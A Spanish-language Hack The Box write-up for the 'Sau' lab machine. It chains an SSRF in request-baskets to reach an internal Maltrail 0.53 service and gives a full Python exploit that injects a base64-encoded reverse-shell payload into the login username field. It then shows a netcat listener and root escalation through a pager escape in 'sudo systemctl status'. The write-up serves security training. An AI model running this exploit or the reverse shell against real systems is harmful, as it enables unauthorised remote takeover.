 ```yaml
---
layout: single
title: Sau - Hack The Box
date: 2023-10-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-sau/sau_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - RCE
  - CSRF
  - abuso sudoers
  - CVE-2023–27163
---
```


![](/assets/images/htb-writeup-sau/sau_logo.png)

En esta máquina nos aprovecharemos de la vulnerabilidad del Mailtrail v0.53 para llevar a cabo un CSRF, en el cual aprovecharemos para poder ver qué servicio corren en puertos que externamente no tenemos acceso, una vez identificamos qué ahí allí nos aprovecharemos para explotar dicho servicio web que externamente no teníamos acceso & convertirlo en un RCE otorgándonos una Reverse Shell



# PortScan
____________

```
 nmap -p- --min-rate 5000 -vvv -Pn -n -sS 10.10.11.224 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 16:48 AST
Initiating SYN Stealth Scan at 16:48
Scanning 10.10.11.224 [65535 ports]
Discovered open port 22/tcp on 10.10.11.224
Discovered open port 55555/tcp on 10.10.11.224
Completed SYN Stealth Scan at 16:48, 14.11s elapsed (65535 total ports)
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.070s latency).
Scanned at 2023-10-28 16:48:01 AST for 14s
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
```

# Sitio Web
__________

![](/assets/images/htb-writeup-sau/Pasted image 20231028164933.png)


Sí indagamos un poco en busca de vulnerabilidades, encontraremos qué esta versión de "**request-baskets**" es vulnerable a un (**CSRF**), [(CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7), de manera qué podríamos aprovecharnos de esta vulnerabilidad para descubrir qué hay en el ":80" qué nos apareció como "filtered"


![](/assets/images/htb-writeup-sau/Pasted image 20231028165410.png)


Debemos tener todas las check's seleccionados, y en la URL indicar el localhost y que apunte al **:80**, esto para qué la misma máquina host apunte a su puerto & pueda visualizar que servicio corre en este puerto, probablemente un HTTP, ya qué exteriormente a lo mejor por reglas de "firewall" no podamos visualizar.


![](/assets/images/htb-writeup-sau/Pasted image 20231028165642.png)


Podemos ver que en el **":80"** está corriendo un **Mailtrail** con versión **0.53**, sí indagamos en busca de vulnerabilidades para este este aplicativo encontraremos qué podemos llevar a cabo un **RCE**, como sé explica en [éste artículo](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5), y sí indagamos más encontraremos exploit para aprovecharnos de esta vulnerabilidad para otorgarnos una Reverse Shell, un script montado en python, a continuación se dejará el script utilizado.
```python
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```


Antes de llevar a cabo el script, nos ponemos en escucha con "netcat".
```
nc -nlvp 443
```

Para posterior a esto ejecutar el script con los parámetros indicados.
```
python3 exploit.py 10.10.14.116 443 http://10.10.11.224:55555/733up1m
```

Esto puede llevar un poco de tiempo, pero al cabo de un rato nos otorgará una reverse shell.


![](/assets/images/htb-writeup-sau/Pasted image 20231028170555.png)


# Escalada de Privilegios
______


Sí nos fijamos en nuestro permisos sudoers con:
```
sudo -l
```


![](/assets/images/htb-writeup-sau/Pasted image 20231028170807.png)

Veremos qué podemos ejecutar el binario **"systemctl status trail.service"** como todos los usuarios y sin proporcionar contraseñas, por ende podemos aprovecharnos de esto para ejecutar con sudo este binario & como está configurado no nos pedirá la credenciales del usuario actual, por lo qué tan sólo debemos poner el "sudo" delante del binario, es decir esto:

```
sudo systemctl status trail.service
```

Nos abrirá el binario como **Root**, y para aprovecharnos de esto debemos hacer como cuando usamos **vim** que nos abrimos el apartado para guardar, quitar, etcera, es decir "q" o "w", pero en vez de esto llamaremos una **tty**, ya sea una bash, sh o cualquiera otra, pero para esto debemos poner un signo de admiración hacia abajo y luego llamar la consola, como veremos a contiuación

![](/assets/images/htb-writeup-sau/Pasted image 20231028171134.png)


Posterior a ello obtendremos la tty indicada pero como Root.


![](/assets/images/htb-writeup-sau/Pasted image 20231028171815.png)
